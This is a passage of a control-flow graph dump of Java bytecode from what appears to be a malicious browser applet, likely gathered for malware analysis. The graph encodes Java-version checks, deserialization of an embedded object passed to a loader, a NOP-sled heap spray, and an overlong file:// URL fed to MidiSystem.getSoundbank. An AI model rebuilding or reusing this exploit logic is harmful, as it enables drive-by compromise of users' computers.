    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_13\""
    "load.r r4"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_14\""
    "load.r r4"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_15\""
    "load.r r4"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_16\""
    "load.r r4"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0\""
    "load.r r4"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_01\""
    "load.r r4"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_02\""
    "load.r r4"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_03\""
    "load.r r4"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_04\""
    "load.r r4"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_05\""
    "load.r r4"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_06\""
    "load.r r4"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_07\""
    "load.r r4"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.6.0_10\""
    "load.r r4"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r4"
    "push -1"->"ifcmpeq.i load.r r4";
    "new java.io.ObjectInputStream"
    "ifcmpeq.i load.r r4"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "fieldget <dev.s.AdgredY: java.lang.String serializedObject>"
    "load.r r0"->"fieldget <dev.s.AdgredY: java.lang.String serializedObject>";
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"
    "fieldget <dev.s.AdgredY: java.lang.String serializedObject>"->"staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r33";
    "load.r $r33"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r33";
    "load.r $r33"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"->"store.r r7";
    "store.r r7"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r33";
    "load.r $r33"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r33";
    "load.r $r33"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"->"store.r i48";
    "ifnull goto load.r r4"
    "store.r i48"->"ifnull goto load.r r4";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "ifnull goto load.r r4"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"ifnull goto load.r r4";
    "ifnull goto load.r r4"->"load.r i48";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "load.r i48"->"ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"push \"\"";
    "push \"\""->"store.r i48";
    "store.r i48"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"load.r i48";
    "load.r i48"->"load.r r7";
    "virtualinvoke <dev.s.LoaderX: void gogogo(java.lang.String,java.lang.String)>"
    "load.r r7"->"virtualinvoke <dev.s.LoaderX: void gogogo(java.lang.String,java.lang.String)>";
    "goto load.r r4"
    "virtualinvoke <dev.s.LoaderX: void gogogo(java.lang.String,java.lang.String)>"->"goto load.r r4";
    "goto load.r r4"->"load.r r4";
    "push \"1.5.0_17\""
    "load.r r4"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 47"
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r4";
    "push \"1.5.0_18\""
    "load.r r4"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r4";
    "push \"1.5.0_19\""
    "load.r r4"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r4";
    "push \"1.5.0_20\""
    "load.r r4"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r4";
    "push \"1.5.0_21\""
    "load.r r4"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r5";
    "load.r r5"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i return"
    "push -1"->"ifcmpeq.i return";
    "ifcmpeq.i return"->"push 47";
    "push 47"->"push 303";
    "push 303"->"staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>"->"pop";
    "pop"->"push \"os.name\"";
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 304"
    "push 47"->"push 304";
    "push 304"->"staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>"->"store.r r4";
    "store.r r4"->"goto new java.lang.StringBuilder";
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"file://\"";
    "push \"file://\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"$\\\"$\\\"$\\\"$\\\"$\\\"$\\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"$\\\"$\\\"$\\\"$\\\"$\\\"$\\\"\"";
    "push \"$\\\"$\\\"$\\\"$\\\"$\\\"$\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r33";
    "load.r $r33"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r33";
    "load.r $r33"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r33";
    "store.r $r33"->"push \"\"";
    "push \"\""->"store.r r5";
    "store.r r5"->"push 0";
    "store.i r7"
    "push 0"->"store.i r7";
    "load.i r7"
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r $r33";
    "load.r $r33"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmpge.i load.r r5"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmpge.i load.r r5";
    "ifcmpge.i load.r r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r33";
    "load.r $r33"->"load.i r7";
    "load.i r7"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r5";
    "inc.i r7 1"
    "store.r r5"->"inc.i r7 1";
    "goto load.i r7"
    "inc.i r7 1"->"goto load.i r7";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
    "ifcmpge.i load.r r5"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.String: int length()>";
    "push 8"
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "ifeq load.r r0"
    "rem.i"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"26\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r5";
    "store.r r5"->"goto load.r r5";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "push \"90909090\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"90909090\"";
    "virtualinvoke <dev.s.AdgredY: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "push \"90909090\""->"virtualinvoke <dev.s.AdgredY: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <dev.s.AdgredY: java.nio.IntBuffer[] mem>"
    "virtualinvoke <dev.s.AdgredY: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <dev.s.AdgredY: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <dev.s.AdgredY: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r4";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r4"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "iflt return"->"return";
    "virtualinvoke <dev.s.LoaderX: void gogogo(java.lang.String,java.lang.String)>"->"store.r r7";
    "ifcmpge.i load.r i49"->"load.r i49";
    "load.r i49"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "rem.i"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r i49";
    "load.r i49"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r i49";
    "goto load.r i49"
    "store.r i49"->"goto load.r i49";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r i49";
    "load.r i49"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"90909090\"";
    "push \"90909090\""->"virtualinvoke <dev.s.AdgredY: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "virtualinvoke <dev.s.AdgredY: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <dev.s.AdgredY: java.nio.IntBuffer[] mem>";
    "fieldput <dev.s.AdgredY: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r7";
    "load.r r7"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "pop"->"push 10L";
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "iflt return"->"return";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b i48";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b r7";
}
